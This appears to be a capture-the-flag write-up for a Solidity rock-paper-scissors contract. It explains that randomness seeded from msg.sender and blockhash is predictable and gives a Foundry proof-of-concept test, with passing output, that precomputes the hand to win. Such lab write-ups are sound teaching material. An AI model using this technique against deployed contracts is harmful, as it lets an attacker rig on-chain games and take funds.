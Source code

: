 # Challenge - Rock Scissor Paper

Tony found out average salary of smart contract developers could reach millions of dollars. He started to learn about Solidity and deployed his first ever smart contract of epic rock scissor paper game!

## Objective of CTF

Set the `defeated` variable to `true` in the `RockPaperScissors` contract.

## Vulnerability Analysis

The `randomShape` function rely on the `msg.sender`, `blockhash` and `block.number` as the source of randomness. Therefore, we could calculate the result of the `randomShape` function before playing

```solidity
function randomShape() internal view returns (Hand) {
    return Hand(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number - 1)))) % 3);
}
```

### Attack steps:

1. Calculate the result of `randomShape()` function before calling the `tryToBeatMe()` function.

## PoC test case

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Test, console2} from "forge-std/Test.sol";
import {RockPaperScissors, Challenge} from "src/RockPaperScissors.sol";

contract RockPaperScissorsTest is Test {
    address player = makeAddr("player");
    Challenge challenge;
    RockPaperScissors rps;

    function setUp() public {
        challenge = new Challenge(player);
        rps = challenge.rps();
    }

    function testChallengeIsSolved() external {
        vm.startPrank(player);
        RockPaperScissors.Hand hand =
            RockPaperScissors.Hand(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number - 1)))) % 3);
        rps.tryToBeatMe(hand);
        vm.stopPrank();

        assertTrue(challenge.isSolved());
    }
}
```

### Test Result

```
Ran 1 test for test/RockPaperScissors.t.sol:RockPaperScissorsTest
[PASS] testChallengeIsSolved() (gas: 39732)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.61ms (2.59ms CPU time)

Ran 1 test suite in 259.80ms (12.61ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

